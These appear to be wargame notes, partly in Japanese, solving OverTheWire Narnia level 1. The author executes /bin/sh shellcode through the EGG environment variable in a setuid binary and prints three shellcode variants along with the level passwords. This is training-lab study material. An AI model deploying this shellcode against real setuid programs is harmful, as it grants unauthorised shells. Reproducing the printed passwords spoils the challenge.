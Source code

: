 $ ssh -p 2226 narnia1@narnia.labs.overthewire.org
efeidiedae

$ scp -P 2226 narnia1@narnia.labs.overthewire.org:/narnia/narnia1 .

$ file narnia1
narnia1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=981de9cec9aa0c997cb4357657ba5b4f3ce3a294, not stripped

$ objdump -d -M intel narnia1 > narnia1.dis`

gdb-peda$ x/20 0x8048570
0x8048570:  0x00474745 -> EGG


EGGという環境変数を取得。

最終的にそのEGGをcallする

任意のアドレスへjmpできるということ？


シェルコードを流し込む


08048060 <_start>:
8048060: 31 c0                 xor    %eax,%eax
8048062: 50                    push   %eax
8048063: 68 2f 2f 73 68        push   $0x68732f2f
8048068: 68 2f 62 69 6e        push   $0x6e69622f
804806d: 89 e3                 mov    %esp,%ebx
804806f: 89 c1                 mov    %eax,%ecx
8048071: 89 c2                 mov    %eax,%edx
8048073: b0 0b                 mov    $0xb,%al
8048075: cd 80                 int    $0x80
8048077: 31 c0                 xor    %eax,%eax
8048079: 40                    inc    %eax
804807a: cd 80                 int    $0x80


export EGG=$(echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")

narnia1@narnia:/etc/narnia_pass$ export EGG=$(echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
narnia1@narnia:/etc/narnia_pass$ /narnia/narnia1
Trying to execute EGG!
$ cat narnia2
nairiepecu

export EGG=$(echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80")でもいける

int 0x80でシステムコールを呼ぶ
この場合はeaxにシステムコール番号を入れる。execveは11( /usr/include/asm/unistd_32.h )なので0xbを入れる



80483db: 31 c0                 xor    eax,eax
80483dd: 50                    push   eax
80483de: 68 2f 2f 73 68        push   0x68732f2f
80483e3: 68 2f 62 69 6e        push   0x6e69622f
80483e8: 54                    push   esp
80483e9: 5b                    pop    ebx
80483ea: 50                    push   eax
80483eb: 59                    pop    ecx
80483ec: 50                    push   eax
80483ed: 5a                    pop    edx
80483ee: 6a 0b                 push   0xb
80483f0: 58                    pop    eax
80483f1: cd 80                 int    0x80

export EGG=$(echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x59\x50\x5a\x6a\x0b\x58\xcd\x80")
